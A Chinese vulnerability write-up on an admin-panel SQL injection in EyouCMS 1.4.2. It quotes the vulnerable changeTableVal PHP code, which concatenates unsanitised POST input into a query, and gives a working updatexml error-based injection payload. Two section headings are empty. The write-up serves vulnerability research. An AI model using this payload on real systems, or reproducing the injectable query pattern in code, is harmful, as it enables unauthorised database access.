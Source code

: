 Eyoucms 1.4.2 后台注入
======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

/application/admin/controller/Index.php

    public function changeTableVal()
    {
        if (IS_AJAX_POST) {
            $url = null;
            $data = [
                'refresh'   => 0,
            ];
            $table = input('post.table/s'); // 表名
            $id_name = input('post.id_name/s'); // 表主键id名
            $id_value = input('post.id_value/s'); // 表主键id值
            $field  = input('post.field/s'); // 修改哪个字段
            $value  = input('post.value/s', '', null); // 修改字段值  
            switch ($table) {
                // 会员等级表
                case 'users_level':
                    {
                        $return = model('UsersLevel')->isRequired($id_name,$id_value,$field,$value);
                        if (is_array($return)) {
                            $this->error($return['msg']);
                        }
                    }
                    break;
                
                // 会员属性表
                case 'users_parameter':
                    {
                        $return = model('UsersParameter')->isRequired($id_name,$id_value,$field,$value);
                        if (is_array($return)) {
                            $this->error($return['msg']);
                        }
                    }
                    break;
                
                // 会员中心菜单表
                case 'users_menu':
                    {
                        Db::name('users_menu')->where('id','gt',0)->update([
                                'is_userpage'   => 0,
                                'update_time'   => getTime(),
                            ]);
                        $data['refresh'] = 1;
                    }
                    break;
                
                // 会员投稿功能
                case 'archives':
                    {
                        if ('arcrank' == $field) {
                            if (0 == $value) {
                                $value = -1;
                            }else{
                                $value = 0;
                            }
                        }
                    }
                    break;
                // 会员产品类型表
                case 'users_type_manage':
                    {
                        if (empty($value)) {
                            $this->error('不可为空');
                        }
                    }
                    break;
                default:
                    # code...
                    break;
            }
            $savedata = [
                $field => $value,
                'update_time'   => getTime(),
            ];
            M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据
            // 以下代码可以考虑去掉，与行为里的清除缓存重复 AppEndBehavior.php / clearHtmlCache
            switch ($table) {
                case 'auth_modular':
                    extra_cache('admin_auth_modular_list_logic', null);
                    extra_cache('admin_all_menu', null);
                    break;
                
                default:
                    // 清除logic逻辑定义的缓存
                    extra_cache('admin_'.$table.'_list_logic', null);
                    // 清除一下缓存
                    // delFile(RUNTIME_PATH.'html'); // 先清除缓存, 否则不好预览
                    \think\Cache::clear($table);
                    break;
            }
            /*清除页面缓存*/
            // $htmlCacheLogic = new \app\common\logic\HtmlCacheLogic;
            // $htmlCacheLogic->clear_archives();
            /*--end*/
            
            $this->success('更新成功', $url, $data);
        }
    }

第307行：

    M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据

直接将函数头获取的POST传入SQL语句里面：

    $table = input('post.table/s'); // 表名
    $id_name = input('post.id_name/s'); // 表主键id名
    $id_value = input('post.id_value/s'); // 表主键id值
    $field  = input('post.field/s'); // 修改哪个字段
    $value  = input('post.value/s', '', null); // 修改字段值

### 漏洞复现

payload：

    http://0-sec.org/eyou/?m=admin&c=Index&a=changeTableVal


    post:

    table=admin&id_name=admin_id&id_value='1'//and//updatexml(1,concat(0x7e,user(),0x7e),1)

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.4.2后台注入/media/rId26.png)

四、参考链接
------------

> http://www.f4ckweb.top/index.php/archives/47/
